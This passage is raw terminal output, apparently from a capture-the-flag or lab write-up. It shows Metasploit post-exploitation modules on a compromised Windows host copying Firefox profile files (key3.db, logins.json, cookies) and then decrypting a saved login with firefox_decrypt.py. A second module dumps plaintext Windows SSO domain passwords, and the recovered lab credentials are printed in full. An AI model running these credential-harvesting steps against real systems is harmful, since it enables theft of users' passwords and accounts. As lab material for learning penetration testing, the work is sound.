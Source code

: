 ```plain
msf post(multi/gather/firefox_creds) > run

[*] Checking for Firefox profile in: C:\Users\nginx\AppData\Roaming\Mozilla\
[-] Firefox was not found (Missing profiles.ini)
[*] Checking for Firefox profile in: C:\Users\Nelson\AppData\Roaming\Mozilla\
[*] Checking for Firefox profile in: C:\Users\Administrator\AppData\Roaming\Mozilla\

[*] Profile: C:\Users\Nelson\AppData\Roaming\Mozilla\Firefox\Profiles\to6utj94.default
[+] Downloaded cert8.db: /root/.msf4/loot/20181215141619_default_10.10.10.112_ff.to6utj94.cert_961508.bin
[+] Downloaded cookies.sqlite: /root/.msf4/loot/20181215141620_default_10.10.10.112_ff.to6utj94.cook_650166.bin
[+] Downloaded key3.db: /root/.msf4/loot/20181215141622_default_10.10.10.112_ff.to6utj94.key3_532842.bin

[*] Profile: C:\Users\Administrator\AppData\Roaming\Mozilla\Firefox\Profiles\nbpe2hdg.default
[+] Downloaded cert8.db: /root/.msf4/loot/20181215141623_default_10.10.10.112_ff.nbpe2hdg.cert_445097.bin
[+] Downloaded cookies.sqlite: /root/.msf4/loot/20181215141624_default_10.10.10.112_ff.nbpe2hdg.cook_196527.bin
[+] Downloaded key3.db: /root/.msf4/loot/20181215141626_default_10.10.10.112_ff.nbpe2hdg.key3_603216.bin
[+] Downloaded logins.json: /root/.msf4/loot/20181215141626_default_10.10.10.112_ff.nbpe2hdg.logi_599016.bin

python2 firefox_decrypt.py /tmp/nbpe2hdg.default
2018-12-15 14:23:37,992 - WARNING - profile.ini not found in /tmp/nbpe2hdg.default
2018-12-15 14:23:37,993 - WARNING - Continuing and assuming '/tmp/nbpe2hdg.default' is a profile location

Master Password for profile /tmp/nbpe2hdg.default:
2018-12-15 14:23:39,352 - WARNING - Attempting decryption with no Master Password

Website:   http://127.0.0.1:5080
Username: 'dinesh'
Password: 'gRv5Be2Min9Hc091263x10KcdffGG'
```

```plain
msf post(windows/gather/credentials/sso) > run

[*] Running module against PIEDPIPER
Windows SSO Credentials
=======================

AuthID    Package  Domain     User      Password
------    -------  ------     ----      --------
0;131384  NTLM     PIEDPIPER  Gilfoyle  h@ck7h380x-3mrgnc3
0;154359  NTLM     PIEDPIPER  nginx     H73BpUY2Uq9U-Yugyt5FYUbY0-U87t87
0;244078  NTLM     PIEDPIPER  Gilfoyle
0;421083  NTLM     PIEDPIPER  nginx
0;466499  NTLM     PIEDPIPER  Nelson

[*] Post module execution completed
```
